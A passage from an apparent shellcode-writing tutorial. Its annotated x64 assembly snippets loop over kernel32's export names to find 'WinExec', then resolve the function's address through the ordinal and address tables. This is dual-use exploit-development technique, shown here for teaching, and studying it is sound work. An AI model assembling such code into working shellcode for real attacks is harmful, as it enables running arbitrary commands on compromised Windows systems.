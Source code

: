 Next, we simply need to loop over the `AddressOfNames` list. We know the length of the list based on the `NumberOfFunctions` field. Once we have found the function we are looking for, we store its index in `RCX` and continue execution.

```
"   mov rcx, r10;"                  # Initialize RCX with the number of functions (loop counter)
"kernel32findfunction: "
" jecxz FunctionNameFound;"         # Jump to FunctionNameFound if RCX is zero (no more functions to check)
"   xor ebx,ebx;"                   # Clear EBX to use as a temporary register
"   mov ebx, [r11+4+rcx*4];"        # Load RVA of current function name into EBX (adjust index as rcx decrements)
"   add rbx, r8;"                   # Convert RVA to absolute address (function name VMA)
"   dec rcx;"                       # Decrement the loop counter
"   mov rax, 0x00636578456E6957;"   # Load the ASCII value of 'WinExec' into RAX for comparison          
"   cmp [rbx], rax;"                # Compare the first eight bytes of the function name at RBX with 'WinExec'
"   jnz kernel32findfunction;"      # If not matched, jump back to start of loop
 
"FunctionNameFound: "
"  nop;"
```

### Finding the WinExec Address

The position where we found the function name in the list will remain stored in the `RCX` register. Following this, we look up the function ordinal based on this index. An ordinal serves as the identifier for a function within a DLL. While we could have conducted a lookup based on this ordinal instead of the function name, it's worth noting that this value might change in future DLL releases.

```
"FunctionNameFound: "
# Entry point after finding the target function name 'WinExec'
"   xor r11, r11;"
"   mov r11d, [rdx+0x24];"          # Load the RVA of the AddressOfNameOrdinals from the Export Table
"   add r11, r8;"                   # Convert RVA to absolute VMA (Virtual Memory Address)
# Incrementing the counter to match the ordinal array index, since we decremented it in the search loop
"   inc rcx;"
"   mov r13w, [r11+rcx*2];"         # Retrieve the function ordinal using the adjusted counter from AddressOfNameOrdinals
# Preparing to fetch the actual function address from AddressOfFunctions
"   xor r11, r11;"
"   mov r11d, [rdx+0x1c];"          # Load the RVA of the AddressOfFunctions from the Export Table
"   add r11, r8;"                   # Convert RVA to absolute VMA where the function addresses are stored
"   mov eax, [r11+r13*4];"          # Fetch the function address RVA using the ordinal as an index
"   add rax, r8;"                   # Convert function address RVA to absolute address
"   mov r14, rax;"                  # Store the resolved function address in R14 for later use
```
